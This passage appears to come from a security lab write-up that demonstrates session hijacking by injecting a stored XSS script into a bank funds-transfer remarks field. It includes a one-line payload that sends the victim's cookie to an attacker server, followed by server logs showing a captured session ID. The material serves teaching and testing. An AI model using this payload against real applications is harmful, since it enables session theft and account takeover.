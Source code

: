\- Initiate  funds transfer with following remarks,

  

\- Remarks in transfer 1:

  

\`\`\`javascript

<script>new Image().src="http://192.168.37.128:81/c="+document.cookie;</script>

\`\`\`

  

!\[session\_hijack\_initiate\_transfer\](images/task2/session\_hijack\_initiate\_transfer.PNG)

  

\- The above scripts automatically sends a \`GET\` request(whenn the victim page  is loaded) to the attacker address.

  

\- The request for the above script can be seen in attacker's server logs,

 \`\`\`bash

 └─$ sudo python -m SimpleHTTPServer 81 

 Serving HTTP on 0.0.0.0 port 81 ...

 192.168.37.128 - 

 - \[23/May/2021 15:34:01\] code 404, message File not found

 192.168.37.128 - - 

 \[23/May/2021 15:34:01\] 

 "GET /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1" 404 -

 192.168.37.128 - 

 - \[23/May/2021 15:35:07\] code 404, message File not found

 192.168.37.128 - 

 - \[23/May/2021 15:35:07\] 

 "GET /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1" 404 -

 192.168.37.128 - 

 - \[23/May/2021 15:38:23\] code 404, message File not found

 192.168.37.128 - 

 - \[23/May/2021 15:38:23\] 

 "GET /c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1" 404 -

  

 \`\`\`

\- From the logs we can observe the request contents \`USECURITYID=crblk95qe8b8mmdcva0saaj9m4\` which we know that, is a cookie value.
